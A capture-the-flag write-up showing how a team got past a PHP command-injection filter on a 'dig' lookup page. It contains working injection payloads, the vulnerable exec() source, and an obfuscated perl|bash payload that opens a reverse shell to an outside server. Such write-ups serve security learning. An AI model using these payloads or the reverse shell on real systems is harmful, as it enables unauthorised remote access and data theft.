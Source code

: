 ## dig host 3 (bonus)
The easy solution to this one is to simply run ``'`{cat,bonus_flag}`'``. However we did not find the easy solution. Here's how you take the long way around...

The challenge offers you a webpage where you can run the program DiG and query some dns record.

![no alt](images/dighost1.png)

The previous 3 challenges have been about command injection, so we tried various command injection. By sending `;ls` we can see which files exist in the directory, we can read files by running `;cat<flag`.

![no alt](images/dighost2.png)

This is how we solved dig host 3, however the bonus_flag file returns nothing when we try to cat it the same way. We can also cat `dig_host_level3.php`. 

```php
<?php
        require_once("../include/smarty.php");


        $host = "";
    $output = "";

        if(isset($_POST) && is_array($_POST) && array_key_exists("host", $_POST)) {
        $host = preg_replace("/[\s\$-]+/", "", $_POST["host"]);

        exec("/dig ".$host, $output);
    }

        $smarty->assign(array(
                "PHP_SELF"      => $_SERVER["PHP_SELF"],
                "host"          => $host,
        "output"    => implode("\n", $output)
        ));

        $smarty->display("dig_host_level3.tpl");
?>

```

Not being able to use whitespace `$` or `-` was pretty limiting, mostly the lack of whitespace would make it impossible to run commands with arguments (we believed). But we did get 1 space for free, the space between `/dig` and whatever we typed in, so we thought about ways to abuse it. 

![no alt](images/dighost3.png)

We noticed that dig reflects the input you give it at the end of the first line. If we give a reversed payload it will reflect it to us, we can then undo the reverse on our payload by using `rev`. Using this method we can inject almost arbitrary strings (specifically `[^\s$-]`) into the beginning of our line. We ran `ls -al /usr/bin` on dig host 1 to see which programs it had that might grant us RCE from this. We tried `python3`, `node`  and `perl`.

Something like 
```python
print(bytes([101,118,105,108,32,115,116,117,102,102]).decode()) >><< utnubU-1.61.9 GiD >><< ;
dmc+ :snoitpo labolg ;;
:rewsna toG ;;
... more garbag here ...
```
would let us generate strings that contain any character, but none of them would accept incomplete multiline comments like `"""` in pythin `/*` in javascript. Single line comments wouldn't help since it parsed the entire file at once. After many hours of trying things that didn't work we tried the following payload.

```
ffuts_live_od|rev>/tmp/bleh;echo`cat</tmp/bleh`
```
This payload echos `ffuts_live_od` using `dig`, then reverse it so `do_evil_stuff` is first on the first line, then writes it to `/tmp/bleh` and then echos `cat</tmp/bleh`, which collapses it into one line.

![no alt](images/dighost4.png)

RCE baby!!!

I wrote a small python script to help generate payloads and after 3 hours of sleep I made this monster. (I'm skipping over the string escaping because it is nuts and boring)
```bash
\\\#\\\)\\\"13x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"03x\\\\\\\".\\\"02x\\\\\\\".\\\"73x\\\\\\\".\\\"33x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"83x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"e2x\\\\\\\".\\\"33x\\\\\\\".\\\"73x\\\\\\\".\\\"e2x\\\\\\\".\\\"23x\\\\\\\".\\\"23x\\\\\\\".\\\"e2x\\\\\\\".\\\"53x\\\\\\\".\\\"63x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"07x\\\\\\\".\\\"36x\\\\\\\".\\\"47x\\\\\\\".\\\"f2x\\\\\\\".\\\"67x\\\\\\\".\\\"56x\\\\\\\".\\\"46x\\\\\\\".\\\"f2x\\\\\\\".\\\"02x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"02x\\\\\\\".\\\"96x\\\\\\\".\\\"d2x\\\\\\\".\\\"02x\\\\\\\".\\\"86x\\\\\\\".\\\"37x\\\\\\\"\\\(tnirp|rev>/tmp/bleh;echo`cat</tmp/bleh`>/tmp/gamer;perl</tmp/gamer|bash
```
It makes a reverse shell to my DTUHAX's server. The challenge is not done.

![no alt](images/dighost5.png)

We still can't read bonus_flag. Turns out you have to be user 20000, (aka root? I think) and we are not user 20000. Luckily `/dig` is a setuid binary with the right user, and DiG has an option to read domains to query from a file, and it echos those domains!

![no alt](images/dighost6.png)

huh?

![no alt](images/dighost7.png)

works fine locally?

We spent a long time trying to figure this out, eventually we used the rev shell to copy their version of dig and reversed it. The binary checks that `argc == 2`, that some illegal characters aren't in the first argument and then it just runs it bash.

![no alt](images/dighost8.png)

Turns out they have 2 dig binaries (and a symlink)
```
$ find / -name dig 2>/dev/null
/usr/bin/dig
/web-apps/php/html/dig
/dig
```
They don't ban `-` in the fake `dig` binary so running `/dig -fbonus_flag` works fine.

```
$ /dig -fbonus_flag
; <<>> DiG 9.16.1-Ubuntu <<>> flag{wait, i thought this was web!}
```
